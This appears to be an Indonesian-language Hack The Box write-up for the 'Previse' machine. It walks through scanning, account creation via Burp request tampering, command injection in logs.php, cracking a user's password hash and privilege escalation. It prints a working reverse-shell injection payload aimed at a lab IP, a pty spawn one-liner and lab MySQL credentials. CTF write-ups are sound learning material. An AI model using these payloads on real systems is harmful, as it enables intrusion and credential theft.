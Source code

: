 # Hackthebox-Previse-WriteUp
Selamat satang di repository saya, di sini saya akan menuliskan writeup pada machine **Previse**

<p alingn=center><a href="https://app.hackthebox.com/machines/373" target="_blank"><img src="https://miro.medium.com/max/600/0*6X4F86uQ83anl-ZR.png" width="400"></a></p>

Sebelum saya memulai laporan saya saya akan pemperkenalkan kepada anda apa itu penetration testing. Penetration Testing atau disebut juga pentest adalah pengujian keamanan informasi dimana seorang pentester meniru serangan yang biasa sering terjadi untuk mengidentifikasi metode peretasan fitur keamanan aplikasi, sistem, atau jaringan. Pengujian ini dilakukan oleh pentester menggunakan serangan yang nyata, sistem yang nyata, dan data yang nyata menggunakan alat dan teknik yang sering dipakai oleh seorang hacker. Penetration Testing biasanya dilakukan bersamaan dengan Vulnerability Assessment (VA). Vulnerability Assessment adalah sebuah proses untuk mengidentifikasi risiko dan celah kerentanan pada aplikasi, sistem, ataupun jaringan. Sebagian besar pentest mencari kombinasi kerentanan pada satu atau lebih sistem untuk mendapatkan akses lebih dalam pada sistem yang menjadi target dibandingkan dengan hanya mengetahui satu macam kerentanan.

### Scanning Port
---
Di sini saya menggunakan **nmap** untuk scan port yang terbuka untuk public 
![nmap](assets/nmap.png)
setelah melakukan scan port diketahui bahwa terdapat 2 port yang terbuka untuk public, yaitu port 80 dan 22. Port 80 umumnya berfungsi untuk web site dengan http:// dan port 22 berfungsi untuk ssh server.

Setelah saya buka ternyata web tersebut berisi login page
![login page](assets/login.png)

### Bruteforce directory
---
Setelah itu saya melakukan brute force attack pada web menggunakan tool Bernama **dirb** untuk mengetahui apakah terdapat url lain yang dapat dibuka secara langsung tanpa autentikasi
![bruteforce](assets/bruteforce.png)
Dan saya tidak bisa mendapat apa apa kerena langsung ke direct ke login page, namun saya dapat mengetahui direktori yang ada setelah melewati login page.

### SQL Injection
---
Lalu saya mencoba lagi menggunakan sql injection sederhana (sapa tau bisa yakan :v)

![sql injection](assets/sql.png)

**BOOOM!** ndak bisa bro, cari jalan lain :')

### Burp Suite
---
Saya menghidupkan proxy server dan menggunakan burpsuite dan mengaktifkan mode instercept
![burp](assets/burp1.png)
Lalu saya kirim ke repeater dan mengganti request seperti yang ada di gambar dan akun telah terbuat XD
![burp](assets/burp2.png)

### Eksekusi
---
Setelah melewati gerbang pertama (login page) saya menemukan sesuatu yang menarik 
![eksekusi](assets/exec1.png)
Saya mendapat kedua file tersebut dari website dan dari sini maka diketahui m4lwhere adalah pemilik.
Setelah itu saya melihat isi dari folder sitebackup dan menemukan seperti gambar dibawah
![eksekusi](assets/exec2.png)
Di sana saya menemukan exec() function yang mungkin bisa digguakan untuk rce dan mysql server
```
User root
Password mySQL_p@ssw0rd!:)
Database previse
```
>exec() dan eval() merupakan ide yang buruk dalam keamanan

Lalu saya mencoba mengakses logs.php lalu di intercept menggunakan burpsuite dan mengirimkan ke repeater
![eksekusi](assets/exec3.png)
Lalu saya melakukan listen pada port 87 menngunakan payload ini untuk melakukan reverse shell
```
delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.14.176/87+0>%261'
```
![eksekusi](assets/exec4.png)
Lalu saya menggunakan payload berikut agar ~~banyak uang~~ (ada symbol $) dan masuk ke mysql server menggunakan username dan password yang tadi 
```python
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```
![eksekusi](assets/exec5.png)
Mantap jiwaaa saya bisa masuk ke mysql server, lalu saya akan mencuri password user m4lwhere
```sql
Select * from accounts;
```
![eksekusi](assets/exec6.png)
Setelah saya mendapat hash passwordnya saya langsung mendecrypt menggunakan ~~john lennon~~ (eh maksud saya john the ripper)
![eksekusi](assets/exec7.png)

Dayummm! Saya mendapatkan passwordnya, saya menghabiskan waktu sangat lama untuk mendapatkan passwordnya :’)

Setelah mendapatkan password karena port 22 terbuka saya mencoba untuk connect ke SSH
![eksekusi](assets/exec8.png)
Di sini saya mendapatkan flag pertama (**user.txt**), Yeayyyy
![eksekusi](assets/exec9.png)

### Privilege Escalation
---
Setelah itu saya menggunakan sudo -l untuk mengetahui pirintah sudo digunakan oleh siapa dan melihat isi file tersebut
![sudo](assets/pe.png)
Setelah itu saya mencoba mereverse shell root ke kali linux saya
![sudo](assets/pe2.png)
Dan saya pun mendapat flag root.txt
![sudo](assets/pe3.png)

# Terimaksih sudah membaca :)
semangat belajarnya bro :')

![gif](https://c.tenor.com/y2JXkY1pXkwAAAAC/cat-computer.gif)
